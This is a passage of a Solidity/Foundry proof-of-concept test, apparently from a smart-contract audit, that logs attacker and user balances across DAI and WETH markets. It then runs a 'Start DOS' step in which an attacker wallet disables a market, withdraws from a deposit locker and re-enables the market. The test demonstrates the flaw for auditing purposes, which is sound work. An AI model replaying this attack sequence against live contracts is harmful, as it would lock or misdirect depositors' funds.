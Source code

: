```solidity
        console.log("  DAI market totalAmountDeposited for attacker using user as depositor:", x / 1e18);

        // as attacker set depositor as user address
        (x, ) = depositLocker.depositorToWeirollWalletToWeirollWalletInfo(ap,  address(wallet_));
        console.log("  DAI market amountDeposited for attacker using user as depositor:", x / 1e18);

        console.log("++ user state ++");

        (x,) = depositLocker.marketHashToDepositorToDepositorInfo(marketHashWETH, ap);
        console.log("  WETH market totalAmountDeposited for user using user as depositor:", x / 1e18);

        // as attacker set depositor as user address
        (x, ) = depositLocker.depositorToWeirollWalletToWeirollWalletInfo(ap,  address(0x83B4EEa426B7328eB3bE89cDb558F18BAF6A2Bf7));
        console.log("  DAI market amountDeposited for user using user as depositor:", x / 1e18);

        uint256 userWethBalance = ERC20(address(WETH_MAINNET_ADDRESS)).balanceOf(ap);
        console.log("  User WETH Balance:", userWethBalance / 1e18);

        vm.startPrank(address(this));
        depositLocker.turnGreenLightOn(marketHashDai);
        vm.warp(block.timestamp + depositLocker.RAGE_QUIT_PERIOD_DURATION() + 1);
        vm.stopPrank();

        console.log("\n=== Step 2: Start DOS ===");

        vm.startPrank(address(wallet_));
        wallet_.disableFMarket();
        wallet_.withdraw(depositLocker);
        wallet_.enableFMarket();

        console.log("++ attacker state ++");

        (x, ) = depositLocker.marketHashToDepositorToDepositorInfo(marketHashDai, ap);
        console.log("  DAI market totalAmountDeposited for attacker using user as depositor:", x / 1e18);

        // as attacker set depositor as user address
        (x, ) = depositLocker.depositorToWeirollWalletToWeirollWalletInfo(ap,  address(wallet_));
        console.log("  DAI market amountDeposited for attacker using user as depositor:", x / 1e18);

        console.log("++ user state ++");

        (x,) = depositLocker.marketHashToDepositorToDepositorInfo(marketHashWETH, ap);
        console.log("  WETH market totalAmountDeposited for user using user as depositor:", x / 1e18);

        // as attacker set depositor as user address
        (x, ) = depositLocker.depositorToWeirollWalletToWeirollWalletInfo(ap,  address(0x83B4EEa426B7328eB3bE89cDb558F18BAF6A2Bf7));
        console.log("  DAI market amountDeposited for user using user as depositor:", x / 1e18);

        // Finally, let's see how many WETH tokens the attacker ends up with
        userWethBalance = ERC20(address(WETH_MAINNET_ADDRESS)).balanceOf(ap);
        console.log("  User WETH Balance:", userWethBalance / 1e18);

        vm.stopPrank();
    }
}
```